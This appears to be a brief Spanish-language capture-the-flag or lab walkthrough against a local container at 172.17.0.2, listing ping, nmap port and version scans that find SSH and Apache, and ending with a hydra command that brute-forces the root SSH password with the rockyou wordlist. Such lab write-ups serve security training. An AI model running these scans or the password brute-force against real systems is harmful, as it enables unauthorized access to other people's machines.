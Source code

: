 1. Comprobar Conexión

ping 172.17.0.2

2. Escaneo de Puertos Abiertos

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2

✅ Puertos abiertos: 22 (SSH) y 80 (HTTP)

3. Detección de Versiones de Servicios

nmap -p22,80 -sCV 172.17.0.2

Resultados:

    22/tcp open ssh → OpenSSH 9.6p1 Ubuntu 3ubuntu13.4
    80/tcp open http → Apache httpd 2.4.58 ((Ubuntu))

  
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
